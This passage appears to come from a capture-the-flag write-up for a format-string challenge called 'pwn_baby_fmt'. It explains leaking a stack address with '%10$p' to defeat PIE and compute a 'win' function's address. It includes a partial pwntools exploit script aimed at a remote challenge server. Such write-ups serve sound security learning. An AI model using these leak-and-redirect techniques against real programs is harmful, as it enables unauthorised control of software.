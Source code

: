 We see that PIE is enabled, meaning we don't know the main function base. In order to find it we will need to leak an address from the stack which is a part from the main program and then subtract its offset in order to get the main function base.

## Exploit Development - Part 1: Leaking Addresses

We will write an exploit that leaks addresses at position 1-50 on the stack so maybe we can find some useful addresses. Before that, I checked the entry point offset:

![alt text](image-2.png)

The program starts at the offset: `001011c0` → entry point offset is `0x11c0`

Let's run the address leaker exploit and see what we get. I will leave that exploit in this repository. After carefully looking through the addresses, I found something interesting at the 10th position:
- `59c2daa741c0`

It indeed looks like a program address but the most interesting thing is that it ends in `1c0` exactly as the offset. This could be our entry point address because if we subtract the address with the offset, our allegedly main base will end in `000` which is perfect because that's how main addresses are often represented due to pagination. 

So now that we know the main address we can also calculate the runtime address of our `win` function.

The exploit until now will be:

```python
from pwn import *
import argparse
import subprocess
import ctypes
import time

context.log_level = 'DEBUG'
context.aslr = False

# start the process
# p = process('./pwn_baby_fmt')
p = remote("34.185.160.224", 31841)
libc = ELF('./libc-2.27.so')

# receive initial prompt
p.recvuntil(b"What's your town?\n")

# leak an address from main in order to get the main base
p.sendline(b'%10$p')
p.recvline()  # get first line
leaked = int(p.recvline().decode().lstrip("0x").rstrip("\n"), 16)
print("Leaked function address:", hex(leaked))

pie_base = leaked - 0x11c0
print("PIE base:", hex(pie_base))

# calculate the base and the win function address
win_function_address = pie_base + 0x133f
print("Win function address:", hex(win_function_address))
```